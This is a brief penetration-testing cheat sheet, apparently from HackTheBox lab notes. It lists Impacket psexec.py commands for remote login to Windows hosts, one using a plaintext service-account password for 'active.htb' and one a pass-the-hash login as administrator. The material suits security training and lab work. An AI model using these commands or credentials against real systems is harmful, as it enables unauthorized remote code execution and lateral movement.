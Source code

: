 --> Basic login

```
python psexec.py 'active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100'
```

--> Login if you have a Hash:

```
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.82 administrator@10.10.10.82
```

